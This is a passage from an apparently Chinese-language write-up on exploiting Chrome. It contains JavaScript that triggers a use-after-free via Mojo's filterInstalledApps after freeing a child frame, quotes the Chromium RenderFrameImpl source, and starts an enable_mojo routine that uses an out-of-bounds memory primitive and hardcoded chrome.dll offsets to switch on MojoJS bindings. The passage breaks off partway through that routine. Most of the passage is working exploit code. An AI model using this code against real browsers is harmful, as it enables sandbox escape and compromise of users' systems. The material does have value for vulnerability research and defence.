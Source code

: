 ```javascript
function getFreedPtr(){
    return new Promise((resolve)=>{
        let frame = allocateRFH("child.html");
        frame.onload = _ => {
        let installAppProviderPtr = frame.contentWindow.installAppProviderPtr;
        deallocateRFH(frame);
        resolve(installAppProviderPtr);
        }
    });
}

// trigger UAF
async function triggerUAF(ptr){
	print("\t[-] trying trigger UAF");
	ptr.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
	print("\t[-] UAF triggered");
}
```

### enable mojo

从上面触发UAF的过程看到，我们需要在一个sub frame中开启Mojo接口，根据p0的文章中提到的为render frame开启Mojo接口的函数：

```cpp
void RenderFrameImpl::DidCreateScriptContext(v8::Local<v8::Context> context,
                                             int world_id) {
  if ((enabled_bindings_ & BINDINGS_POLICY_MOJO_WEB_UI) && IsMainFrame() &&
      world_id == ISOLATED_WORLD_ID_GLOBAL) {
    // We only allow these bindings to be installed when creating the main
    // world context of the main frame.
    blink::WebContextFeatures::EnableMojoJS(context, true);
  }

  for (auto& observer : observers_)
    observer.DidCreateScriptContext(context, world_id);
}
```

我们只需要满足if里的条件即可给该render frame开启Mojo接口，IsMainFrame函数也是通过RenderFrameImpl对象里的一个成员来判断的

所以enable mojo的代码如下：

```javascript
function enable_mojo(oob){
    print("[ enable mojo ]")

    const kWindowWrapperTypeInfoOffset  = 0x7573e88n;
    const kGFrameMapOffset              = 0x7627888n;
    const kEnabledBindingsOffset        = 0x5c8n;
    const kEnabledMojoBindingOffset     = 0x5ccn;
    const kIsMainFrameOffset            = 0x88n;

    let window_ptr = oob.objToPtr(window);
    print("[*] window_ptr: 0x"+window_ptr.toString(16));

    let v8_window_wrapper_type_info_ptr = oob.getUint64(BigInt(window_ptr+0x10));
    let chrome_dll_address = v8_window_wrapper_type_info_ptr - kWindowWrapperTypeInfoOffset;
    print("[*] chrome.dll address: 0x"+chrome_dll_address.toString(16));
    print("[*] v8 window warpper type info ptr: 0x"+v8_window_wrapper_type_info_ptr.toString(16));

    let g_frame_map_ptr = chrome_dll_address + kGFrameMapOffset;
    print("[*] g_frame_map_ptr: 0x"+g_frame_map_ptr.toString(16))

    if (oob.getUint64(g_frame_map_ptr) != g_frame_map_ptr + 0x8n) {
        print('[!] error finding g_frame_map');
        return;
```